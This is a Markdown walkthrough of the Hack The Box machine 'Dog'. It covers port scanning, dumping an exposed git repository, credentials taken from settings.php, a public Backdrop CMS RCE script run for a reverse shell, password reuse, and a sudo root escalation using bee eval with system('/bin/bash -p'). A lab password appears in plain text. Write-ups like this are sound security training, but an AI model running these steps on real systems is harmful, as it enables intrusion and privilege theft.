

# Dog HTB Walkthrough

---

## Nmap Scan

```bash
nmap -p- -Pn 10.129.58.251 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.58.251 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.58.251 -v --script vuln -oN nmap_vuln.txt
```



---

## Web Enumeration

When looking at the website at port 808 we see the CMS running it:



Note we also found a git repository so let's check it.



---

## Git Repository Extraction

```bash
git-dumper http://10.129.58.251 .git
```



We then checked out the `settings.php` and found database credentials:



We also find a username at:

```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active
```



Using the found credentials we successfully logged in as **tiffany**:




---

## Exploitation - Backdrop CMS RCE

Found this exploit online:  
🔗 [https://github.com/rvizx/backdrop-rce/](https://github.com/rvizx/backdrop-rce/)

Using this we gained a reverse shell:

```bash
python3 exploit.py http://10.129.58.251 tiffany@dog.htb BackDropJ2024DS2024
```



---

## Shell Stabilization

Then we upgraded the shell:



---

## Privilege Escalation - Password Reuse

Then I tried to password spray and it worked:



User flag is on the desktop.

---

## Sudo Privilege Escalation

We see that `sudo -l` gives us that we can run the **bee** command as sudo.



With `bee -h` we see what it does, and it can run arbitrary PHP code:




Note: we also need to set the root directory, so let’s craft our exploit:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash -p');"
```



It worked — we are **root**!  
Root flag is at `/root/root.txt`.

---
